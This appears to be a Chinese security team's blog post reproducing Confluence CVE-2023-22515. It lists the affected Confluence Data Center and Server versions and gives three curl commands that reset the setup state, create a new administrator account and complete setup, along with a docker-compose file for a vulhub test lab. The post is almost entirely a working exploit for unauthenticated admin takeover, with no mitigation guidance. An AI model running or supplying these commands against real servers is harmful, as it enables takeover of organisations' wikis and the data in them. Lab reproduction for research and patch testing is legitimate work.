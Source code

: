 #  Confluence CVE-2023-22515漏洞复现

原创 刨洞安全团队 [ 刨洞安全团队 ](javascript:void\(0\);)

**刨洞安全团队** ![]()

微信号 gh_55f3b3854b4b

功能介绍
刨洞群官方公众号，一群热爱网络安全的人，关注渗透测试、红队攻防、代码审计、内网渗透、WAF绕过、云原生安全等领域技术研究，分享网安学习心得，永远充满激情。

____

___发表于_

收录于合集

**影响版本：**

    
    
    8.0.0 <= Confluence Data Center and Confluence Server <= 8.0.4  
    8.1.0 <= Confluence Data Center and Confluence Server <= 8.1.4  
    8.2.0 <= Confluence Data Center and Confluence Server <= 8.2.3  
    8.3.0 <= Confluence Data Center and Confluence Server <= 8.3.2  
    8.4.0 <= Confluence Data Center and Confluence Server <= 8.4.2  
    8.5.0 <= Confluence Data Center and Confluence Server <= 8.5.1

 **Exploit：**

    
    
    curl http://127.0.0.1:8090/server-info.action\?bootstrapStatusProvider.applicationConfig.setupComplete\=false\;  
    curl -X POST -H "X-Atlassian-Token: no-check" -d "username=haxor&fullName=leet&email=leet@leet.com&password=leet&confirm=leet&setup-next-button=Next" http://127.0.0.1:8090/setup/setupadministrator.action\;  
    curl -X POST -H "X-Atlassian-Token: no-check" http://127.0.0.1:8090/setup/finishsetup.action

 **docker-compose.yml**

    
    
    version: '2'  
    services:  
      web:  
        image: vulhub/confluence:8.5.1  
        ports:  
          - "8090:8090"  
          - "5050:5050"  
        depends_on:  
          - db  
      db:  
        image: postgres:12.8-alpine  
        environment:  
        - POSTGRES_PASSWORD=postgres  
        - POSTGRES_DB=confluence
